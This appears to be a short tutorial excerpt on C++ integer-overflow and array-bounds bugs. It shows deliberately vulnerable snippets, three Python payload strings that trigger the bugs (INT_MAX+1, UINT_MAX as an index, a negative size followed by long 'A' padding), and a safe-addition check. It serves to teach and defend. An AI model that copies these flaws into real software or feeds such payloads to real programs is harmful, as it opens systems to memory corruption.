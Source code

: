 ### Arithmetic Overflow
```cpp
int len1, len2;
std::cin >> len1 >> len2;
int total_len = len1 + len2; // Vulnerability: INT_MAX + 1 = negative
if (total_len < 0) {
    // Security check bypassed
}
```

### Array Bounds Bypass
```cpp
int index;
std::cin >> index;
if (index < 0) {
    array[index] = value; // Vulnerability: Negative index
}
```

## Exploit Development

### 1. Buffer Size Exploit
```python
# Input negative value to cause overflow
payload = "1\n-1\n" + "A" * 200 + "\n"
```

### 2. Arithmetic Overflow Exploit
```python
# INT_MAX + 1 to cause overflow
payload = "2\n2147483647\n1\n" + "A" * 100 + "\n"
```

### 3. Array Bounds Exploit
```python
# UINT_MAX to get negative index
payload = "3\n4294967295\n0x41414141\n"
```

## Defense Mechanisms

### 1. Integer Overflow Check
```cpp
// Safe addition
if (a > INT_MAX - b) {
    // Overflow detected
    return -1;
}
int result = a + b;
```
